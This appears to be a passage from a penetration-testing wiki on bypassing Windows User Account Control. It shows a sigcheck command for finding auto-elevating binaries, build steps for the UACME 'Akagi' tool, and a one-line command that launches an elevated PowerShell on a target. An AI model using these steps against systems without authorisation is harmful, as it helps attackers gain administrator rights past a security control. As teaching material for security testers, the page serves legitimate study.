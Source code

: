 An Administrator should be able to start a `Mandatory Label\High` process, but this usually involves a user pressing "Yes" on a GUI prompt, this is the User Account Control (UAC) at work.&#x20;

This feature is however bypassable without a GUI using AutoElevate programs. To check if a binary has the AutoElevate property, we can use [sigcheck](https://learn.microsoft.com/en-us/sysinternals/downloads/sigcheck):

<pre class="language-powershell"><code class="lang-powershell"><strong>C:\> sigcheck -m c:/windows/system32/msconfig.exe
</strong>...
&#x3C;asmv3:application>
	&#x3C;asmv3:windowsSettings xmlns="http://schemas.microsoft.com/SMI/2005/WindowsSettings">
		&#x3C;dpiAware>true&#x3C;/dpiAware>
<strong>		&#x3C;autoElevate>true&#x3C;/autoElevate>
</strong>	&#x3C;/asmv3:windowsSettings>
&#x3C;/asmv3:application>
</code></pre>

Many different built-in programs have this property set, but not all are secure. Microsoft seems to not classify UAC bypasses as an issue, so this repository collects dozens of working methods:

{% embed url="https://github.com/hfiref0x/UACME" %}
Collection of UAC bypass techniques abusing builtin Windows programs
{% endembed %}

To build the tool, open the **Source** folder in [Visual Studio](https://visualstudio.microsoft.com/). This should open the "Akagi" project which you can build in Release mode for x64 architecture:

<figure><img src="../.gitbook/assets/image-removebg-preview (4).png" alt="" width="294"><figcaption><p>Select <strong>Release</strong> and <strong>x64</strong> in the dropdowns, and then <strong>Build</strong> -> <strong>Build Solution</strong></p></figcaption></figure>

When building is done, you should find the compiled binary in "Source\Akagi\output\x64\Release\Akagi64.exe".&#x20;

This can now be executed on the target by _choosing a technique_, and a program to start in a new window with the elevated privileges:

```powershell
.\Akagi64.exe 61 powershell.exe
```
